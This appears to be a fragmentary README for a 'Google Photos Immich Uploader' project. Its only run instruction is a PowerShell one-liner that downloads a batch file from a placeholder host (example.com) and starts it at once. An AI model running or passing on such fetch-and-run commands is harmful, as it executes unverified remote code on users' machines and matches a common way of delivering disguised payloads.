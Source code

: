 # Google Photos Immich Uploader
## How to run
### Windows
``powershell -Command "& {iwr -Uri 'https://example.com/script.bat' -OutFile 'script.bat'; Start-Process 'script.bat'}"``
